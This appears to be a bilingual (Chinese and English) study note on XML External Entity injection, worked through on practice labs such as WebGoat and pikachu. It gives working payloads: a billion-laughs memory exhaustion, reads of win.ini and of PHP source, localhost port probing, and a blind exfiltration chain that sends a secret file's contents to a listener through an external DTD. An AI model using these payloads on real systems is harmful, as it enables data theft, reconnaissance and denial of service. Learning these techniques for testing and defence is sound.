

# 介绍


As you can see once the XML document is processed by the parser, it will replace the defined entity js with the defined constant "Jo Smith". As you can see this has many advantages as you can change js in one place to for example "John Smith".


In a Java application XML can be used to get data from the client to the server, we are all familiar with JSON apis we can also use xml to get the information across. Most of the time the framework automatically populates the Java object based on the xml structure, for example:


XXE(XML External Entity Injection) XML外部实体注入

# DTD内部文档声明

当DTD存在于XML源文件中，由以下格式进行包裹

```xml
<!DOCTYPE 根元素 [元素声明]>
可以看到在DTD设置了一些变量，然后在xml文档中再使用到这些变量。
这就是DTD与XML之间的使用方法。
```

然后XML文件对于DTD的内容进行引用

```xml
<?xml version="1.0"?>
<!DOCTYPE note [ 
  <!ELEMENT note (to,from,heading,body)>
  <!ELEMENT to      (#PCDATA)>
  <!ELEMENT from    (#PCDATA)>
  <!ELEMENT heading (#PCDATA)>
  <!ELEMENT body    (#PCDATA)>
]>
<note>
  <to>George</to>
  <from>John</from>
  <heading>Reminder</heading>
  <body>Don't forget the meeting!</body>
</note>
```

# XXE DOS attack

With the same XXE attack we can perform a DOS service attack towards the server. An example of such an attack is:

```xml
<?xml version="1.0"?>
<!DOCTYPE lolz [
 <!ENTITY lol "lol">
 <!ELEMENT lolz (#PCDATA)>
 <!ENTITY lol1 "&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;">
 <!ENTITY lol2 "&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;">
 <!ENTITY lol3 "&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;">
 <!ENTITY lol4 "&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;">
 <!ENTITY lol5 "&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;">
 <!ENTITY lol6 "&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;">
 <!ENTITY lol7 "&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;">
 <!ENTITY lol8 "&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;">
 <!ENTITY lol9 "&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;">
]>
<lolz>&lol9;</lolz>
```

When XML parser loads this document, it sees that it includes one root element, "lolz", that contains the text "&lol9;". However, "&lol9;" is a defined entity that expands to a string containing ten "&lol8;" strings. Each "&lol8;" string is a defined entity that expands to ten "&lol7;" strings, and so on. After all the entity expansions have been processed, this small (< 1 KB) block of XML will actually take up almost 3 gigabytes of memory.

# exp


```xml
<?xml version="1.0"?>
<!DOCTYPE note[
<!ENTITY xxe "hack">]>
<note>&xxe;</note>
```

### 查看系统文件内容

因为c:/windows/win.ini是每个windows系统都有的文件，如果确定服务器是windows系统，就可以用该文件来确定是否有xxe漏洞

```xml
<?xml version = "1.0"?>
<!DOCTYPE noet [
<!ENTITY xxe SYSTEM "file:///c:/windows/win.ini"> ]>
<note>&xxe;</note>
```

结果




### 查看PHP源代码

```xml
<?xml version = "1.0"?>
<!DOCTYPE noet [
<!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=D:/phpstudy_pro/WWW/pikachu/vul/rce/rce.php"> ]>
<note>&xxe;</note>
```

```xml
<?xml version = "1.0"?>
<!DOCTYPE noet [
<!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=xxe_1.php"> ]>
<note>&xxe;</note>
```

结果


### 爆破开放端口

这个我是看了大佬的博客学习到的，先看两端代码，虽然返回结果都是那段“友善”的提示，
但是肉眼可见处理速度是不同的
原因是服务器80端口是开放的，而81端口是关闭的

```xml
<?xml version = "1.0"?>
<!DOCTYPE noet [
<!ENTITY xxe SYSTEM "http://127.0.0.1:80"> ]>
<note>&xxe;</note>
```

```xml
<?xml version = "1.0"?>
<!DOCTYPE noet [
<!ENTITY xxe SYSTEM "http://127.0.0.1:81"> ]>
<note>&xxe;</note>
```

### 无回显-读取文件 


放入自己服务端的attack.dtd文件内容

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!ENTITY % file SYSTEM "file:///C:\Users\31222/.webgoat-8.2.2//XXE/secret.txt">
<!ENTITY % all "<!ENTITY send SYSTEM 'http://localhost:9090/landing?text=%file;'>">
%all;
```


发送给入侵端的

```xml

<?xml version="1.0"?>
<!DOCTYPE root [
<!ENTITY % remote SYSTEM "http://127.0.0.1:9090/files/hanhaniscat/attack.dtd">
%remote;
]>
<comment>
  <text>test&send;</text>
</comment>

```


整个的调用过程如下：解析%remote时引入attack.dtd，之后%all引入send的定义，最后引用了实体send，把%file文件内容通过一个http请求发了出去。